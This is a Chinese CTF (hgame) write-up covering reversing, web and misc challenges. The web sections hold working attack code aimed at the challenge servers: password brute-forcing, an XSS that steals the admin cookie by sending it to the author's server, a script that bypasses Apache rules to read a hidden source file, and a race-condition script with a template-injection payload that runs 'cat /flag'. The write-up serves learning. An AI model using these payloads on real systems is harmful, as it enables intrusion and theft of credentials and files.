    _BYTE v7[8]; // [rsp+18Dh] [rbp+10Dh] BYREF
    char v8[7]; // [rsp+195h] [rbp+115h] BYREF
    unsigned int v9; // [rsp+19Ch] [rbp+11Ch]
    unsigned int v10; // [rsp+1A0h] [rbp+120h]
    int v11; // [rsp+1A4h] [rbp+124h]
    int v12; // [rsp+1A8h] [rbp+128h]
    unsigned int v13; // [rsp+1ACh] [rbp+12Ch]

    sub_401C20();
    strcpy(v8, "yekyek");
    v4[0] = -51;
    v4[1] = -113;
    v4[2] = 37;
    v4[3] = 61;
    v4[4] = -31;
    qmemcpy(v5, "QJ", sizeof(v5));
    v2[0] = -8;
    v2[1] = -43;
    v2[2] = 98;
    v2[3] = -49;
    v2[4] = 67;
    v2[5] = -70;
    v2[6] = -62;
    v2[7] = 35;
    v2[8] = 21;
    v2[9] = 74;
    v2[10] = 81;
    v2[11] = 16;
    v2[12] = 39;
    v2[13] = 16;
    v2[14] = -79;
    v2[15] = -49;
    v2[16] = -60;
    v2[17] = 9;
    v2[18] = -2;
    v2[19] = -29;
    v2[20] = -97;
    v2[21] = 73;
    v2[22] = -121;
    v2[23] = -22;
    v2[24] = 89;
    v2[25] = -62;
    v2[26] = 7;
    v2[27] = 59;
    v2[28] = -87;
    v2[29] = 17;
    v2[30] = -63;
    v2[31] = -68;
    v2[32] = -3;
    v2[33] = 75;
    v2[34] = 87;
    v2[35] = -60;
    v2[36] = 126;
    v2[37] = -48;
    v2[38] = -86;
    v2[39] = 10;
    v13 = 6;
    v12 = 7;
    v11 = 40;
    sub_403068(aPlzInputTheKey);
    sub_403058("%s", v6);
    sub_403048(v7, v6);
    v10 = 7;
    sub_401550(v8, v13, v1);
    sub_40163E(v6, v10, v1);
    if ( (unsigned int)sub_403078(v6, v4, v12) )
    {
        sub_403060(aKeyIsWrong);
    }
    else
    {
        sub_403068(aPlzInputTheFla);
        sub_403058("%s", v3);
        v9 = 40;
        sub_401550(v7, v10, v1);
        sub_40175A(v3, v9, v1);
        if ( (unsigned int)sub_403078(v3, v2, v11) )
            sub_403060(aWrongPlzTryAga);
        else
            sub_403060(aCongratulate);
    }
    return 0LL;
}
```

exp:

```python
def rc4(key, length):
    """
    RC4 keystream generator.
    key: list of integers (each 0-255)
    length: number of keystream bytes to generate.
    """
    S = list(range(256))
    j = 0
    key_len = len(key)
    # Key Scheduling Algorithm (KSA)
    for i in range(256):
        j = (j + S[i] + key[i % key_len]) % 256
        S[i], S[j] = S[j], S[i]
    i = 0
    j = 0
    stream = []
    # Pseudo-Random Generation Algorithm (PRGA)
    for _ in range(length):
        i = (i + 1) % 256
        j = (j + S[i]) % 256
        S[i], S[j] = S[j], S[i]
        stream.append(S[(S[i] + S[j]) % 256])
    return stream

def main():
    # Step 1: Compute RC4 keystream for the key "yekyek" (6 bytes) to process the user key.
    fixed_key = b"yekyek"  # 6 bytes from v11 ("yekyek")
    keystream = rc4(list(fixed_key), 7)
    
    # Step 2: The expected result (combining v7 and v8) is:
    # v7: [-51, -113, 37, 61, -31] -> in unsigned: 205, 143, 37, 61, 225
    # v8: "QJ" -> ascii: 81, 74
    expected_processed = [205, 143, 37, 61, 225, 81, 74]
    
    # Step 3: Since sub_40163E is the RC4 PRGA XORing bytes,
    # original user key can be computed as:
    #   original_key = expected_processed XOR keystream
    user_key = bytes([expected_processed[i] ^ keystream[i] for i in range(7)])
    try:
        user_key_str = user_key.decode('utf-8')
    except UnicodeDecodeError:
        user_key_str = user_key.hex()
    print("Recovered user key (input key):", user_key_str)
    
    # Step 4: For flag decryption, the key is the copy of user key stored in v10.
    # (We assume sub_403048 is a memcpy so that v10 == user_key.)
    key_for_flag = list(user_key)  # List of integers; expected length 7.
    
    # The encrypted flag (40 bytes) are stored in v5:
    encrypted_flag = [
        248, 213, 98, 207, 67, 186, 194, 35, 21, 74,
        81, 16, 39, 16, 177, 207, 196, 9, 254, 227,
        159, 73, 135, 234, 89, 194, 7, 59, 169, 17,
        193, 188, 253, 75, 87, 196, 126, 208, 170, 10
    ]
    
    # Before decrypting the flag, the program reinitializes the RC4 state using the key from v10.
    # We generate the RC4 keystream for a length equal to the flag length.
    keystream_flag = rc4(key_for_flag, len(encrypted_flag))
    
    # The flag encryption subtracts the keystream mod 256 so we reverse it by adding.
    flag_bytes = bytes([(encrypted_flag[i] + keystream_flag[i]) % 256 for i in range(len(encrypted_flag))])
    
    try:
        flag_str = flag_bytes.decode('utf-8')
    except UnicodeDecodeError:
        flag_str = flag_bytes.hex()
    
    print("Decrypted flag:", flag_str)

if __name__ == '__main__':
    main()
    
'''
Recovered user key (input key): ecg4ab6
Decrypted flag: hgame{Y0u'r3_re4l1y_g3t_0Ut_of_th3_upX!}
'''
```

> hgame{Y0u'r3_re4l1y_g3t_0Ut_of_th3_upX!}

## Web

### 1.Level 24 Pacman

> 不安全 | 正在勘探中 | 实体数量已知
>
> > 你来到了一处似曾相识的场景，但你想不起来这是什么。 你头疼欲裂，想要找到一个出口，却发现前路上只有无尽的光点，还有看起来像是结束乐队的四个小不点，向你缓缓走来.
> >
> > | 你的目标是，在被他们抓住之前，收集一万枚金币，离开这个地方。 |
> > | ------------------------------------------------------------ |
> > | 1. WASD或者上下左右均可以移动                                |
> > | 2. SPACE键可以暂停游戏                                       |
> > | 3. 你有五次机会。在此之前，努力逃吧！                        |
>
> 祝你好运，朋友。

在index.js里面

`here is your gift:aGFlcGFpZW1rc3ByZXRnbXtydGNfYWVfZWZjfQ==`

->`haepaiemkspretgm{rtc_ae_efc}`(base64)

->`hgame{pratice_makes_perfect}` (fence 2)

然后你就可以获得



`here is your gift:aGFldTRlcGNhXzR0cmdte19yX2Ftbm1zZX0=`

->`haeu4epca_4trgm{_r_amnmse}`

->`hgame{u_4re_pacman_m4ster}`

> hgame{u_4re_pacman_m4ster}

### 2.Level 69 MysteryMessageBoard

> 在一个昏暗的空间里，存在着一块神秘的留言板，挂在虚拟墙壁上，仿佛可以窥见外界的光明。每一条信息都能带来不同的后果，但它们都被一个神秘的管理者所审视，这位管理者决定了谁能够通过这扇门，谁将永远被困在这片虚拟的牢笼中。
>
> 这块留言板被某种看不见的力量所控制，留言的内容似乎会触发某种仪式，每个输入的字符都充满了未知的能量。输入者的每一句话，都可能成为被审视的焦点，甚至引发一种奇异的变化，仿佛信息的力量能够改变现实，带着留言者穿越虚拟与真实的边界。
>
> 这块留言板上的秘密，正等待着被揭开
>
> （容器内端口为8888）

题目给了源码

```go
package main

import (
    "context"
    "fmt"
    "github.com/chromedp/chromedp"
    "github.com/gin-gonic/gin"
    "github.com/gorilla/sessions"
    "log"
    "net/http"
    "sync"
    "time"
)

var (
    store = sessions.NewCookieStore([]byte("fake_key"))
    users = map[string]string{
        "shallot": "fake_password",
        "admin":   "fake_password"}
    comments []string
    flag     = "FLAG{this_is_a_fake_flag}"
    lock     sync.Mutex
)

func loginHandler(c *gin.Context) {
    username := c.PostForm("username")
    password := c.PostForm("password")
    if storedPassword, ok := users[username]; ok && storedPassword == password {
        session, _ := store.Get(c.Request, "session")
        session.Values["username"] = username
        session.Options = &sessions.Options{
            Path:     "/",
            MaxAge:   3600,
            HttpOnly: false,
            Secure:   false,
        }
        session.Save(c.Request, c.Writer)
        c.String(http.StatusOK, "success")
        return
    }
    log.Printf("Login failed for user: %s\n", username)
    c.String(http.StatusUnauthorized, "error")
}
func logoutHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session")
    delete(session.Values, "username")
    session.Save(c.Request, c.Writer)
    c.Redirect(http.StatusFound, "/login")
}
func indexHandler(c *gin.Context) {
    session, _ := store.Get(c.Request, "session")
    username, ok := session.Values["username"].(string)
    if !ok {
        log.Println("User not logged in, redirecting to login")
        c.Redirect(http.StatusFound, "/login")
        return
    }
    if c.Request.Method == http.MethodPost {
        comment := c.PostForm("comment")
        log.Printf("New comment submitted: %s\n", comment)
        comments = append(comments, comment)
    }
    htmlContent := fmt.Sprintf(`<html>
        <body>
            <h1>留言板</h1>
            <p>欢迎，%s，试着写点有意思的东西吧，admin才不会来看你！自恋的笨蛋！</p>
            <form method="post">
                <textarea name="comment" required></textarea><br>
                <input type="submit" value="提交评论">
            </form>
            <h3>留言:</h3>
            <ul>`, username)
    for _, comment := range comments {
        htmlContent += "<li>" + comment + "</li>"
    }
    htmlContent += `</ul>
            <p><a href="/logout">退出</a></p>
        </body>
    </html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
}
func adminHandler(c *gin.Context) {
    htmlContent := `<html><body>
        <p>好吧好吧你都这么求我了~admin只好勉为其难的来看看你写了什么~才不是人家想看呢！</p>
        </body></html>`
    c.Data(http.StatusOK, "text/html; charset=utf-8", []byte(htmlContent))
    //无头浏览器模拟登录admin，并以admin身份访问/路由
    go func() {
        lock.Lock()
        defer lock.Unlock()
        ctx, cancel := chromedp.NewContext(context.Background())
        defer cancel()
        ctx, _ = context.WithTimeout(ctx, 20*time.Second)
        if err := chromedp.Run(ctx, myTasks()); err != nil {
            log.Println("Chromedp error:", err)
            return
        }
    }()
}

// 无头浏览器操作
func myTasks() chromedp.Tasks {
    return chromedp.Tasks{
        chromedp.Navigate("/login"),
        chromedp.WaitVisible(`input[name="username"]`),
        chromedp.SendKeys(`input[name="username"]`, "admin"),
        chromedp.SendKeys(`input[name="password"]`, "fake_password"),
        chromedp.Click(`input[type="submit"]`),
        chromedp.Navigate("/"),
        chromedp.Sleep(5 * time.Second),
    }
}

func flagHandler(c *gin.Context) {
    log.Println("Handling flag request")
    session, err := store.Get(c.Request, "session")
    if err != nil {
        c.String(http.StatusInternalServerError, "无法获取会话")
        return
    }
    username, ok := session.Values["username"].(string)
    if !ok || username != "admin" {
        c.String(http.StatusForbidden, "只有admin才可以访问哦")
        return
    }
    log.Println("Admin accessed the flag")
    c.String(http.StatusOK, flag)
}
func main() {
    r := gin.Default()
    r.GET("/login", loginHandler)
    r.POST("/login", loginHandler)
    r.GET("/logout", logoutHandler)
    r.GET("/", indexHandler)
    r.GET("/admin", adminHandler)
    r.GET("/flag", flagHandler)
    log.Println("Server started at :8888")
    log.Fatal(r.Run(":8888"))
}

```

访问/flag需要admin权限

先试图登录[wwl012345/PasswordDic: 渗透测试常用密码字典合集(持续更新)](https://github.com/wwl012345/PasswordDic)

 使用这个里面的字典爆密码



看到这个`888888`的反应时间不同



于是`username`=`shallot`    `password`=`888888`



看到留言框就想到xss，



可以看到里面包含了我们的cookie。那加上访问`/admin`可以模拟admin访问，xss的目标就是获取cookie

所以现在vps上`python3 -m http.server 11451`开了个http服务

然后xss的payload是

`<script>document.write('')</script>`

提交评论之后访问`/admin`，然后就有cookie了



这边是服务器返回的cookie

抓一个自己访问`/flag`的包，然后改一下cookie就可以拿到flag了





> hgame{W0w_y0u_5r4_9o0d_4t_xss}

### 3.Level 38475 角落

> 这里被称为“角落（The Corner）”，仿佛是某个庞大迷宫中被遗漏的碎片。
>
> 墙壁上挂着一块破旧的留言板，四周弥漫着昏暗的光线和低沉的回响。
>
> 据说，这块留言板是通往外界的唯一线索，但它隐藏着一个不为人知的秘密——留言板的管理者会查看留言板上的信息，并决定谁有资格离开。
>
> 这里的实体似乎对留言板有着特殊的兴趣，它们会不断地在留言板上留下奇怪的符号或重复的单词，仿佛在进行某种神秘的仪式。
>
> 或许，可以通过这些仪式借助管理者的力量离开。

访问了`/robots.txt`



然后继续访问了`/app.conf`

```conf
# Include by httpd.conf
<Directory "/usr/local/apache2/app">
    Options Indexes
    AllowOverride None
    Require all granted
</Directory>

<Files "/usr/local/apache2/app/app.py">
    Order Allow,Deny
    Deny from all
</Files>

RewriteEngine On
RewriteCond "%{HTTP_USER_AGENT}" "^L1nk/"
RewriteRule "^/admin/(.*)$" "/$1.html?secret=todo"

ProxyPass "/app/" "http://127.0.0.1:5000/"
```

能看到这个`app.py`不能访问



询问ai构建了脚本来访问`app.py`

```python
import requests
import time

TARGET = "http://146.56.227.88:30781"
FILE_PATH = "/admin/usr/local/apache2/app/app.py%3f"
USER_AGENT = "L1nk/Chrome"

def exploit():
    url = f"{TARGET}{FILE_PATH}"
    headers = {
        "User-Agent": USER_AGENT
    }
    try:
        r = requests.get(url, headers=headers, timeout=10)
        return r.text
    except Exception as e:
        print("Exploit error:", e)
    return ""

if __name__ == '__main__':
    print("开始尝试读取 app.py")
    attempt_count = 0
    while True:
        attempt_count += 1
        result = exploit()
        if result:
            print("成功读取 app.py 内容：")
            print(result)
            break
        time.sleep(0.1)
        
        
'''
from flask import Flask, request, render_template, render_template_string, redirect
import os
import templates

app = Flask(__name__)
pwd = os.path.dirname(__file__)
show_msg = templates.show_msg

def readmsg():
    filename = pwd + "/tmp/message.txt"
    if os.path.exists(filename):
        f = open(filename, 'r')
        message = f.read()
        f.close()
        return message
    else:
        return 'No message now.'

@app.route('/index', methods=['GET'])
def index():
    status = request.args.get('status')
    if status is None:
        status = ''
    return render_template("index.html", status=status)

@app.route('/send', methods=['POST'])
def write_message():
    filename = pwd + "/tmp/message.txt"
    message = request.form['message']
    f = open(filename, 'w')
    f.write(message) 
    f.close()
    return redirect('index?status=Send successfully!!')
    
@app.route('/read', methods=['GET'])
def read_message():
    if "{" not in readmsg():
        show = show_msg.replace("{{message}}", readmsg())
        return render_template_string(show)
    return 'waf!!'

if __name__ == '__main__':
    app.run(host = '0.0.0.0', port = 5000)
'''
```

exp

```python
import requests
import time
import threading

TARGET = "http://146.56.227.88:30781/app"
PAYLOAD = "{{ config.__class__.__init__.__globals__['os'].popen('cat /flag').read() }}"

session = requests.Session()

def send_message(message):
    try:
        return session.post(f"{TARGET}/send", data={"message": message}, timeout=10).status_code
    except Exception as e:
        print("Error:", e)
    return None

def trigger_read():
    try:
        return session.get(f"{TARGET}/read", timeout=10).text
    except Exception as e:
        print("Error triggering read:", e)
    return ""

def attempt():
    send_message("114514")
    threading.Timer(0.01, send_message, args=(PAYLOAD,)).start()
    time.sleep(0.001)
    return trigger_read()

if __name__ == '__main__':
    attempt_count = 0
    while True:
        attempt_count += 1
        result = attempt()
        if "hgame" in result:
            print("成功读取 flag 内容：")
            print(result)
            break
        if attempt_count % 10 == 0:
            print(f"尝试次数：{attempt_count}, 最近返回内容：{result}")
        time.sleep(0.1)
#具有一定的随机性，属实是在硬爆
```



> hgame{y0u_fInd_the-K3Y_To-RrR@cE-0UuUUt2ce20df}

## Week 2

### 1.Computer cleaner plus

> 小明发现他的另一台虚拟机也遭遇了同样的问题，他按照你的步骤清理干净了自己的电脑，但是一段时间后发现自己的电脑还在遭受黑客的控制，请你再帮他排查一下造成这一情况的原因
>
> flag为：hgame{可执行恶意文件名称} （不带后缀）



> hgame{B4ck_D0_oR}

### 2.Invest in hints

无舍即无得。

> Q&A：
>
> - “这里的‘Hint #*x*’是哪个hint？（*x*替换为你喜欢的非负整数）” -- 由你自己来发现。
> - “不会出现负收益的中间状态吗？” -- 无舍即无得。但我们保证解出赛题的收益是非负的。
> 求解本题无需使用暴力枚举。请选手确保在解题过程中不存在暴力枚举行为。
> 本题不设置血分。自动计算的血分将由工作人员扣除。

每个 Hint 按原串顺序包含以下位（个位代表原串的第一个字符）。

````txt
Hint 51: 00001100101001111010000000010010001110100000000000000000001101111000100
Hint 52: 01101000111011000000000101000100001001101100000000010010001110011000000
Hint 53: 10100100000001011000110001001101000010001101011101010110001000000000000
Hint 54: 00001010000010010000100110000100000010000100101100111000001011100000111
Hint 55: 01110010100100100000000000000000011010110011000001111000101100000001000
Hint 56: 01110100001001000010010111101111011101001000100010011001000010011100000
Hint 57: 10000101010000000011000001100101001010110100000110110010001000100011000
Hint 58: 00000111101000001001000001100100100000110000110000101000001101110100000
Hint 59: 01001101001001000000001001001110100000000000001011000100010000101010101
Hint 60: 10010010100110011011100010011001100100100001110010010101001000100001111
Hint 61: 01001000100011000001000000000011010001110001000000101100001000100010100
Hint 62: 00101000010000111000101110000010001000000001000111100010001101001001101
Hint 63: 01000010111010000000010100001010001011000100100010000000000000001000000
Hint 64: 01110110110011000000010000011000000010000000000000111000000010000010001
Hint 65: 01100000000011000110000000010001000000000011001100000110010001011010000
Hint 66: 01110011001000101001100001011000011010000001100010100000011010000001000
Hint 67: 00111011000011000000100100101000100100101000010001100111001000100001000
Hint 68: 01000110010101011100110101110010001111100011010000000101010100000010010
Hint 69: 11111010111000110100010000000010001101111010011010001100000011000001001
Hint 70: 00000010110101100100100011001011011001100000100010011111000011000001101
Hint 71: 00001100001110101000010111001100011100100010011100001010000000001000010
Hint 72: 01100000000011001001011100000101000110111000101100010101111000001010100
Hint 73: 00001000001010010000001101010110110000110111011011100101011110010110000
Hint 74: 01010010100000000111011110001000010110100001000111001101010100000010000
Hint 75: 11010000011000010100001010000111011010100001111010100100100000111110110
````

随手买了hint 5

`01110010100100100000000000000000011010110011000001111000101100000001000`

`mMk3ACi7SCWyAq3C5wda42`

就`每个 Hint 按原串顺序包含以下位（个位代表原串的第一个字符）。`这句话我看了好久

发现hint字符数量等于1的数量，猜测是一一对应的

最后根据hgame的第四位是m，把这个01倒置的第四位是1，所以理论上就很简单了。

然后算出来hint5在的情况下再买hint6、7、10、19、23就行了

草稿纸如图



> hgame{Aug5YMkf3o99ACi7Lr0gQSCKaWy2Azq3ti691DhNlCbxu8rR2mCAD5LEwLdmHa42}
